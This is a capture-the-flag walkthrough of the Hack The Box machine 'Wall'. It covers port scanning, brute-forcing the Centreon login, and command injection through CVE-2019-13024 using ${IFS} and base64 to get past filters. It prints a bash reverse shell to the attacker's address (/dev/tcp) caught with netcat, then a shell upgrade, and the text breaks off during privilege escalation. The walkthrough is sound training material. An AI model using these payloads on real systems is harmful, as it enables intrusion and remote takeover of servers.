









---
search:
  exclude: true
---
# Wall Writeup

## Introduction :

Wall is a Medium linux box released back in September 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    
      [ 192.168.0.32/24 ] [ /dev/pts/6 ] [~/_HTB/Wall]
      → sudo nmap -vvv -sTU -p- 10.10.10.157 --max-retries 0 -Pn --min-rate=1000 | grep Discovered
      [sudo] password for nothing:
      Discovered open port 80/tcp on 10.10.10.157
      Discovered open port 22/tcp on 10.10.10.157
    
      [ 192.168.0.32/24 ] [ /dev/pts/6 ] [~/_HTB/Wall]
      → nmap -sCV -p80,22 10.10.10.157
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-29 21:25 BST
      Nmap scan report for 10.10.10.157
      Host is up (0.090s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
      |   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
      |_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
      80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
      |_http-server-header: Apache/2.4.29 (Ubuntu)
      |_http-title: Apache2 Ubuntu Default Page: It works
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 10.52 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 so let's investigate it:

As expected, an ubuntu apache2 default page, so let's find which directories are available for us on this webserver using gobuster: 
    
    
    
      [ 192.168.0.32/24 ] [ /dev/pts/6 ] [~/_HTB/Wall]
      → gobuster dir -u http://10.10.10.157 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 50
      ===============================================================
      Gobuster v3.0.1
      by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
      ===============================================================
      [+] Url:            http://10.10.10.157
      [+] Threads:        50
      [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
      [+] Status codes:   200,204,301,302,307,401,403
      [+] User Agent:     gobuster/3.0.1
      [+] Timeout:        10s
      ===============================================================
      2020/04/29 21:31:24 Starting gobuster
      ===============================================================
      /monitoring (Status: 401)
      ===============================================================
      2020/04/29 21:34:24 Finished
      ===============================================================
    
    

And we seem to have only found /monitoring which is supposed to get a 401 status code which is an authentification prompt, so let's check it : 

We can run hydra to bruteforce this authentification request: 
    
    
    
      [ 10.10.14.2/23 ] [ /dev/pts/5 ] [/usr/share]
      → hydra -l admin -P /usr/share/SecLists/Passwords/darkweb2017-top1000.txt -f 10.10.10.157 http-get /monitoring
      Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
    
      Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-30 14:32:48
      [DATA] max 16 tasks per 1 server, overall 16 tasks, 999 login tries (l:1/p:999), ~63 tries per task
      [DATA] attacking http-get://10.10.10.157:80/monitoring
      1 of 1 target completed, 0 valid passwords found
      Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-30 14:33:08
    
    

However it doesn't seem to find it, so let's inspect it in burpsuite instead: 

Intercept the request, send it to the repeater and here we see the 401 status code, However if we do a POST request instead (right click + change request method) we get something interesting: 

We get a redirection to the /monitoring/ tab which is quite odd, and if we keep switching from GET to POST at some point we sumble upon this particular response: 

Which hints us towards the /centreon webpage and obviously it's official documentation [changelog](https://docs.centreon.com/docs/centreon/fr/latest/release_notes/): 

Here we can see that the webserver is running an out of date centreon login page with plenty of possible exploits for us to use, Just by looking through the documentation from it's current version onwards (v. 19.04.0+) we should be able to find interesting things However these are all authenticated vulnerabilities, and therefore they would require credential, but from here we could also run searchsploit to find publicly available exploits for the centreon service: 
    
    
      [ 10.10.14.2/23 ] [ /dev/pts/5 ] [/usr/share]
      → searchsploit centreon
      ------------------------------------------------------------ ----------------------------------------
       Exploit Title                                              |  Path
                                                                  | (/usr/share/exploitdb/)
      ------------------------------------------------------------ ----------------------------------------
      Centreon - SQL Injection / Command Injection (Metasploit)   | exploits/unix/remote/35078.rb
      Centreon 1.4.2.3 - 'get_image.php' Remote File Disclosure   | exploits/php/webapps/5204.py
      Centreon 1.4.2.3 - 'index.php' Local File Inclusion         | exploits/php/webapps/31318.txt
      **Centreon 19.04  - Remote Code Execution                     | exploits/php/webapps/47069.py**
      Centreon 19.04 - Authenticated Remote Code Execution (Metas | exploits/php/webapps/47948.rb
      Centreon 19.10.5 - 'Pollers' Remote Command Execution       | exploits/php/webapps/47977.txt
      Centreon 19.10.5 - 'Pollers' Remote Command Execution (Meta | exploits/php/webapps/47994.rb
      Centreon 19.10.5 - 'centreontrapd' Remote Command Execution | exploits/php/webapps/47978.txt
      Centreon 19.10.5 - Database Credentials Disclosure          | exploits/php/webapps/47968.txt
      Centreon 19.10.5 - Remote Command Execution                 | exploits/php/webapps/47969.txt
      Centreon 2.3.1 - 'command_name' Remote Command Execution    | exploits/php/webapps/36293.txt
      Centreon 2.5.3 - Remote Command Execution                   | exploits/php/webapps/39501.txt
      Centreon 2.5.3 - Web Useralias Command Execution (Metasploi | exploits/python/remote/40170.rb
      Centreon 2.5.4 - Multiple Vulnerabilities                   | exploits/php/webapps/37528.txt
      Centreon 2.6.1 - Multiple Vulnerabilities                   | exploits/php/webapps/38339.txt
      Centreon  2.5.1 / Centreon Enterprise Server  2.2 - SQL I | exploits/linux/webapps/41676.rb
      Centreon Enterprise Server 2.3.3  2.3.9-4 - Blind SQL Inje | exploits/php/webapps/23362.py
      Centreon IT & Network Monitoring 2.1.5 - SQL Injection      | exploits/php/webapps/11979.pl
      Oreon 1.4 / Centreon 1.4.1 - Multiple Remote File Inclusion | exploits/php/webapps/4735.txt
      ------------------------------------------------------------ ----------------------------------------
      Shellcodes: No Result
    

Here we see a potential candidate which is the RCE python script number 47069: 
    
    
      [ 10.10.14.2/23 ] [ /dev/pts/5 ] [~/_HTB/Wall]
      → locate 47069.py
      /usr/share/exploitdb/exploits/php/webapps/47069.py
    
      [ 10.10.14.2/23 ] [ /dev/pts/5 ] [~/_HTB/Wall]
      → cp /usr/share/exploitdb/exploits/php/webapps/47069.py .
    
      [ 10.10.14.2/23 ] [ /dev/pts/5 ] [~/_HTB/Wall]
      → cat 47069.py | grep Usage
          print("[~] Usage : ./centreon-exploit.py url username password ip port")
    

However as you can see here sadly it is also an authenticated exploit requiring the user, password and ip. So our next step is to simply intercept the login request and inspect it inside burpsuite's repeater (CTRL+R and CTRL+Shift+R):

Before sending this over to the repeater, we see that the request has a Cross Site Request Forgery token (CSRF token) This is used to prevent cross site forgery attacks not necessarily bruteforcing, To continue here we need to take another look at centreon's [REST API documentation](https://docs.centreon.com/docs/centreon/fr/19.04/api/api_rest/) for the current version 19.04 just like for the [Craft](44.md) box: 

So looking at this documentation we seem to need the parameters username and password, which we can check using curl: 
    
    
      [ 10.10.14.2/23 ] [ /dev/pts/5 ] [~/_HTB/Wall]
      → curl 10.10.10.157/centreon/api/index.php?action=authenticate -d 'username=admin&password;=test'
      "Bad credentials"
    

So the form is correct but we have the wrong credentials obviously, we can also check it inside burpsuite using the following request: 
    
    
      POST /centreon/api/index.php?action=authenticate HTTP/1.1
      Host: 10.10.10.157
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      Referer: http://10.10.10.157/centreon/
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 28
      DNT: 1
      Connection: close
      Cookie: PHPSESSID=s34ug6hb67uh93f7ud7aellmgs
      Upgrade-Insecure-Requests: 1
    
      username=admin&password;=test
    
    

` 

So as expected we get a 403 saying "Bad Credentials". 
    
    
    
    
    [ 10.10.14.2/23 ] [ /dev/pts/5 ] [~/_HTB/Wall]
    → wfuzz -u http://10.10.10.157/centreon/api/index.php?action=authenticate -d 'username=admin&password;=FUZZ' -w /usr/share/SecLists/Passwords/darkweb2017-top1000.txt
    
    Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    
    ********************************************************
    * Wfuzz 2.4.5 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://10.10.10.157/centreon/api/index.php?action=authenticate
    Total requests: 999
    
    ===================================================================
    ID           Response   Lines    Word     Chars       Payload
    ===================================================================
    
    000000004:   403        0 L      2 W      17 Ch       "password"
    000000006:   403        0 L      2 W      17 Ch       "abc123"
    000000010:   403        0 L      2 W      17 Ch       "123123"
    000000001:   403        0 L      2 W      17 Ch       "123456"
    000000003:   403        0 L      2 W      17 Ch       "111111"
    000000009:   403        0 L      2 W      17 Ch       "1234567"
    000000007:   403        0 L      2 W      17 Ch       "12345678"
    000000005:   403        0 L      2 W      17 Ch       "qwerty"
    000000002:   403        0 L      2 W      17 Ch       "123456789"
    000000008:   200        0 L      1 W      60 Ch       "password1"
    000000012:   403        0 L      2 W      17 Ch       "000000"
    
    [...]
    
    000000300:   403        0 L      2 W      17 Ch       "diamond"
    ^C
    Finishing pending requests...
    
    [ 10.10.14.2/23 ] [ /dev/pts/5 ] [~/_HTB/Wall]
    → ^C
    
    

So here we get a bunch of 403s so we'll blacklist those using --hc (for hide code) 
    
    
      [ 10.10.14.2/23 ] [ /dev/pts/5 ] [~/_HTB/Wall]
      → wfuzz -u http://10.10.10.157/centreon/api/index.php?action=authenticate -d 'username=admin&password;=FUZZ' -w /usr/share/SecLists/Passwords/darkweb2017-top1000.txt --hc 403
    
      Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    
      ********************************************************
      * Wfuzz 2.4.5 - The Web Fuzzer                         *
      ********************************************************
    
      Target: http://10.10.10.157/centreon/api/index.php?action=authenticate
      Total requests: 999
    
      ===================================================================
      ID           Response   Lines    Word     Chars       Payload
      ===================================================================
    
      000000008:   200        0 L      1 W      61 Ch       "password1"
    
      Total time: 10.81323
      Processed Requests: 999
      Filtered Requests: 998
      Requests/sec.: 92.38677
    
    

And we get a match for the username admin and his password "password1", so let's login:

So at this point we have credentials, and only now we have alot of exploits we can use, because apparently they are all authenticated exploits, with RCEs in particular, so we'll go for the following CVE-2019-13024 exploit which has an official [python script](https://github.com/mhaskar/CVE-2019-13024/blob/master/Centreon-exploit.py) made by [mhaskar](https://github.com/mhaskar): 
    
    
      [ 10.10.14.2/23 ] [ /dev/pts/5 ] [~/_HTB/Wall]
    → curl -sk https://raw.githubusercontent.com/mhaskar/CVE-2019-13024/master/Centreon-exploit.py > mhas
    kar_rocks.py
    
    [ 10.10.14.2/23 ] [ /dev/pts/5 ] [~/_HTB/Wall]
    → nano mhaskar_rocks.py
    

From here we see that the previous 47069.py we found was actually mhaskar's script, however it seems to be outdated, so we'll do it manually: 

And this is where the RCE is, we can specify any binary we want, to test connectivity we'll try to ping ourselves back. However one thing to note is that the webservice doesn't accept spaces so we have to make sure we do not type in any space otherwise it will error out, so to go around this problem we'll go for the ${IFS} option: 
    
    
      [ 10.10.14.8/23 ] [ /dev/pts/3 ] [~]
      → echo 'ping -c1 10.10.14.8;'
      **ping -c1 10.10.14.8;**
    
      [ 10.10.14.8/23 ] [ /dev/pts/3 ] [~]
      → echo 'ping -c1 10.10.14.8;' | sed 's/ /${IFS}/g'
      **ping${IFS}-c1${IFS}10.10.14.8;**
    
    

Once we made sure there is no spaces for us to error out, we inject our ping command and check if it worked with tcpdump, so hit save, then export configuration, then hit export and check the tcpdump output:

 
    
    
    
      [ 10.10.14.8/23 ] [ /dev/pts/3 ] [~]
      → sudo tcpdump -i tun0 -n icmp
      [sudo] password for nothing:
      tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
      listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
      10:20:05.356841 IP 10.10.10.157 > 10.10.14.8: ICMP echo request, id 28117, seq 1, length 64
      10:20:05.356882 IP 10.10.14.8 > 10.10.10.157: ICMP echo reply, id 28117, seq 1, length 64
    

And there we see that we have been able to recieve the ping icmp request from the machine. One important thing is that you must not forget the semicolon (;) at the end of the command otherwise the command execution will error out which is preety weird. Regardless we now know that the machine can communicate to us so let's craft our reverse shell payload, so redo the previous steps with the following payload and get a reverse shell through netcat: 
    
    
    
      [ 10.10.14.8/23 ] [ /dev/pts/3 ] [~]
      → echo "bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1';" | sed 's/ /${IFS}/g'
      bash${IFS}-c${IFS}'bash${IFS}-i${IFS}>&${IFS}/dev/tcp/10.10.14.8/9001${IFS}0>&1';
    
    

However for some reason this bash reverse shell seems to contain some characters the webservice doesn't like so let's try to go around it with a simple base64 encoding: 
    
    
      [ 10.10.14.8/23 ] [ /dev/pts/3 ] [~]
      → echo "bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'" | base64
      YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzkwMDEgMD4mMScK
    
      [ 10.10.14.8/23 ] [ /dev/pts/3 ] [~]
      → echo "echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzkwMDEgMD4mMSc | base64 -d | bash;" | sed 's/ /${IFS}/g'
      echo${IFS}YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44LzkwMDEgMD4mMSc${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;
    
      [ 10.10.14.8/23 ] [ /dev/pts/3 ] [~]
      → nc -lvnp 9001
      listening on [any] 9001 ...
      connect to [10.10.14.8] from (UNKNOWN) [10.10.10.157] 51708
      bash: cannot set terminal process group (983): Inappropriate ioctl for device
      bash: no job control in this shell
      www-data@Wall:/usr/local/centreon/www$ id
      id
      uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)
      www-data@Wall:/usr/local/centreon/www$ which python
      which python
      /usr/bin/python
    

And we get a reverse shell as www-data ! Like i said, do not forget the semicolon (;) at the end, which can easily be forgotten, so we are logged in as www-data and there is python, so let's upgrade it to a fully-interactive tty shell: 
    
    
    
      www-data@Wall:/usr/local/centreon/www$ which python
      which python
      /usr/bin/python
      www-data@Wall:/usr/local/centreon/www$ python -c 'import pty;pty.spawn("/bin/bash")'
      www-data@Wall:/usr/local/centreon/www$ ^Z
      [1]+  Stopped                 nc -lvnp 9001
    
      [ 10.10.14.8/23 ] [ /dev/pts/3 ] [~]
      → stty -a | grep colum
      speed 38400 baud; rows 45; columns 160; line = 0;
    
      [ 10.10.14.8/23 ] [ /dev/pts/3 ] [~]
      → stty raw -echo
    
      [ 10.10.14.8/23 ] [ /dev/pts/3 ] [~]
      → nc -lvnp 9001
                     reset
      reset: unknown terminal type unknown
      Terminal type? ^C
      www-data@Wall:/usr/local/centreon/www$ export SHELL=bash
      www-data@Wall:/usr/local/centreon/www$ export TERM=xterm-256color
      www-data@Wall:/usr/local/centreon/www$ stty rows 45 columns 160
    

What we did here was:
    
    
      - Check if python was there, spawn a tty shell with the pty library
      - CTRL+Z (^Z) to background the reverse shell process
      - stty -a | grep column to know what our current terminal's dimensions are
      - stty raw -echo
      - then type "fg" to bring back our reverse shell process in the foreground
      - type in reset
      - escape the "Terminal type?" question prompt
      - export both our SHELL and TERM variables
      - update our stty shell dimensions with the stty -a dimensions we saw earlier
    

And now with this we have a fully interactive reverse shell that has the correct dimensions, and with tab completion, which makes editing files with vim much easier. So let's try to see where the flag is:
    
    
    
      www-data@Wall:/usr/local/centreon/www$ cd /home
    
      www-data@Wall:/home$ ls -lash
      total 16K
      4.0K drwxr-xr-x  4 root       root       4.0K Jul  4  2019 .
      4.0K drwxr-xr-x 23 root       root       4.0K Jul  4  2019 ..
      4.0K drwxr-xr-x  6 shelby     shelby     4.0K Jul 30  2019 shelby
      4.0K drwxr-xr-x  5 sysmonitor sysmonitor 4.0K Jul  6  2019 sysmonitor
    
      www-data@Wall:/home$ find . -type f
      find: './sysmonitor/.gnupg': Permission denied
      ./sysmonitor/.wget-hsts
      ./sysmonitor/.bash_logout
      ./sysmonitor/.bashrc
      ./sysmonitor/.profile
      find: './sysmonitor/.cache': Permission denied
      find: './sysmonitor/.local/share': Permission denied
      ./sysmonitor/.sudo_as_admin_successful
      find: './shelby/.gnupg': Permission denied
      ./shelby/html.zip
      ./shelby/.bash_logout
      ./shelby/.bashrc
      ./shelby/.rpmdb/Group
      ./shelby/.rpmdb/__db.001
      ./shelby/.rpmdb/Requirename
      ./shelby/.rpmdb/__db.003
      ./shelby/.rpmdb/Transfiletriggername
      ./shelby/.rpmdb/Suggestname
      ./shelby/.rpmdb/Supplementname
      ./shelby/.rpmdb/__db.002
      ./shelby/.rpmdb/Sigmd5
      ./shelby/.rpmdb/Recommendname
      ./shelby/.rpmdb/.dbenv.lock
      ./shelby/.rpmdb/Filetriggername
      ./shelby/.rpmdb/Providename
      ./shelby/.rpmdb/Dirnames
      ./shelby/.rpmdb/Basenames
      ./shelby/.rpmdb/Obsoletename
      ./shelby/.rpmdb/Packages
      ./shelby/.rpmdb/Sha1header
      ./shelby/.rpmdb/Enhancename
      ./shelby/.rpmdb/Conflictname
      ./shelby/.rpmdb/Triggername
      ./shelby/.rpmdb/Name
      ./shelby/.rpmdb/Installtid
      ./shelby/.profile
      find: './shelby/.cache': Permission denied
      ./shelby/user.txt
      find: './shelby/.local/share': Permission denied
    
      www-data@Wall:/home$ cd shelby/
    
      www-data@Wall:/home/shelby$ ls
      html.zip  user.txt
    
      www-data@Wall:/home/shelby$ cat user.txt
      cat: user.txt: Permission denied
    

And we see that the flag is located in /home/shelby/user.txt, but we don't have enough permissions to print it, so we need to privesc to the shelby user. 
    
    
    
      www-data@Wall:/home/shelby$ find . -type f -ls
      find: './.gnupg': Permission denied
         **400169      8 -rw-rw-r--   1 shelby   shelby       4567 Jul 30  2019 ./html.zip**
         400126      4 -rw-r--r--   1 shelby   shelby        220 Apr  4  2018 ./.bash_logout
         400127      4 -rw-r--r--   1 shelby   shelby       3771 Apr  4  2018 ./.bashrc
         400147      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Group
         400141    124 -rw-r--r--   1 shelby   shelby     270335 Jul  4  2019 ./.rpmdb/__db.001
         400148      8 -rw-r--r--   1 shelby   shelby       8192 Jul  4  2019 ./.rpmdb/Requirename
         400143    120 -rw-r--r--   1 shelby   shelby     266239 Jul  4  2019 ./.rpmdb/__db.003
